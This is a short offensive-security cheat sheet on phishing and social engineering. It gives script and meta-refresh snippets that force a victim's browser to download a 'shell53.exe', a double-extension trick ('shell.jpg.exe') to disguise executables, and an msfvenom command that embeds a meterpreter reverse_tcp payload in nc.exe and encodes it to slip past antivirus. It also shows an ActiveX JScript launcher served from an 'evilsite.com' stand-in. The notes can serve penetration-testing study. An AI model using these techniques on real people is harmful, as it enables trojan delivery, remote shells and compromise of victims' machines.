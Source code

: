 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

### Embed malicious code in legitimate file

It is however very likely that this will be picked up by a antivirus.

```
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

## Autodownload a malicious javascript-file

Just like we can download an exe for a user to can also make that user download a javascript file. Since javascript files can execute commands on windows.

```
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

```
http://evilsite.com/file.js
```

This code can be modified to greate a wget-script and then download and execute a script.


## Phishing

The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:


```
setoolkit
```

## Spear phishing

## Word/excel makros

An explanation of how to createa malicious makro-wordfile.

https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/

## Embed a executable inside a PowerPoint

You can embed executables inside PowerPoint presentations and then have them execute about animations. 

## Reference:
https://www.youtube.com/watch?v=NTdthBQYa1k